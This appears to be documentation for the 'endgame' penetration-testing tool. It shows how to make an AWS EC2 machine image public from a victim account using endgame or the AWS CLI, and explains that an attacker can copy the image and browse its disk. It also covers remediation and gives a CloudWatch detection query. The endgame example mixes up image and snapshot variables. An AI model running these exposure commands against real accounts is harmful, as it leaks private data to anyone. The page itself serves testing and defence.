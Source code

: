 # EC2 AMIs (Machine Images)

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=*
export IMAGE_ID=ami-5731123e

endgame expose --service ebs --name $SNAPSHOT_ID
```

* To expose the resource using AWS CLI, run the following from the victim account:

```bash
aws ec2 modify-image-attribute \
    --image-id ami-5731123e \
    --launch-permission "Add=[{Group=all}]"
```

* To validate that the resource has been shared publicly, run the following:

```bash
aws ec2 describe-image-attribute \
    --image-id ami-5731123e \ 
    --attribute launchPermission
```

* Observe that the contents of the exposed AMI match the example shown below.

## Example

The output of `aws ec2 describe-image-attribute` reveals that the AMI is public if the value of "Group" under "LaunchPermissions" is equal to "all"

```
{
    "LaunchPermissions": [
        {
            "Group": "all"
        }
    ],
    "ImageId": "ami-5731123e",
}
```

## Exploitation

After an EC2 AMI is made public, an attacker can then:
* [Copy the AMI](https://docs.aws.amazon.com/cli/latest/reference/ec2/copy-image.html) into their own account
* Launch an EC2 instance using that AMI and browse the contents of the disk, potentially revealing sensitive or otherwise non-public information.

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that EC2 AMIs are only shared with trusted accounts, and that the trusted accounts truly need access to the EC2 AMIs.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your AMIs**: Tightly control access to the following IAM actions:
  - [ec2:ModifyImageAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_ModifyImageAttribute.html): _Grants permission to modify an attribute of an Amazon Machine Image (AMI)_
  - [ec2:DescribeImageAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeImageAttribute.html): _Grants permission to describe an attribute of an Amazon Machine Image (AMI). This includes information on which accounts have access to the AMI_
  - [ec2:DescribeImages](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeImages.html): _Grants permission to describe one or more images (AMIs, AKIs, and ARIs)_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='ec2.amazonaws.com' and (eventName='ModifyImageAttribute' and requestParameters.attributeType='launchPermission') 
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

- [aws ec2 modify-image-attribute](https://docs.aws.amazon.com/cli/latest/reference/ec2/modify-image-attribute.html)
- [aws ec2 describe-image-attribute](https://docs.aws.amazon.com/cli/latest/reference/ec2/describe-image-attribute.html)
